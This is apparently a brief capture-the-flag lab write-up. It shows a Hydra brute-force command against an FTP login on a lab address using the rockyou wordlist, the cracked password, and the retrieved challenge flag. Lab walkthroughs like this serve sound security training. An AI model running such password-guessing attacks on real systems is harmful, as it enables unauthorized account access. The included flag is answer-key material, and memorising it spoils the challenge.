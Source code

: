 ### What is the password for the user "mike"?
`hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.48.202 ftp`

Got this message `[21][ftp] host: 10.10.48.202   login: mike   password: password`

so 'password'

had to `gunzip rockyou.txt.gz` for this to work.

### What is ftp.txt?

Did `get ftp.txt` after logging in.
got 'THM{y0u_g0t_th3_ftp_fl4g}'